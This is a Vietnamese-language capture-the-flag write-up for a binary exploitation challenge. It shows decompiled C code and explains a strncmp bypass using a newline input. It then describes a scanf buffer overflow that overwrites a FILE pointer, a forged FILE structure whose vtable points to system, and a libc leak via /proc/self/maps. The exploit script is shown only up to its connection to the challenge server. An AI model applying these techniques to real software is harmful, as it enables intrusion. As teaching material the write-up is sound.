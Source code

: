**Solution**

Chương trình tạo 1 số random 16 byte và bắt chúng ta phải nhập chính xác số random đó. 

```c
v3 = time(0);
  srand(v3);
  for ( i = 0; i <= 15; ++i )
    s2[i] = generateRandomHexValue();
  memset(s, 0, sizeof(s));
  printf("Are you Huster? Show me your ID: ");
  custom_read(s);
  n = strlen(s);
  if ( strncmp(s, s2, n) )
  {
    printf("Do you forgot your ID, so badd !!!");
    exit(1);
  }
  puts("Ohh... so you can use the newest tool I just found");
  puts("Please don't break my program T_T\n");
```

Ta hoàn toàn có thể bypass hàm `strncmp` với input `\n`. 

Dễ thấy ý đồ của tác giả là muốn sử dụng kỹ thuật File Structure Attack. Ở option 4, chương trình có bug BOF như sau 

```c
puts("oh... I forgot asking your name");
printf("What is your name: ");
__isoc99_scanf("%s", name);
printf("See you soon, %s !!!\n", name);
if ( filePtr )
fclose(filePtr);
exit(1);
```

Từ biến `name`, ta hoàn toàn overwrite được `filePtr` lẫn `fileContent`. Vậy mình hoàn toàn fake được `file structure` và `vtable` sao cho toàn bộ hàm trong `vtable` đều là `system`. 

<img src="15.png"/>

Để leak được `libc`, chúng ta có thể mở `/proc/self/maps` hoặc `/proc/self/syscall`. 

Full exploit 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./file_scanner_patched", checksec = False)
libc = ELF("./libc_32.so.6", checksec = False)
ld = ELF("./ld-2.23.so", checksec = False)

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.97.125.56", 31381)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

sla(b"ID: ", "") 
```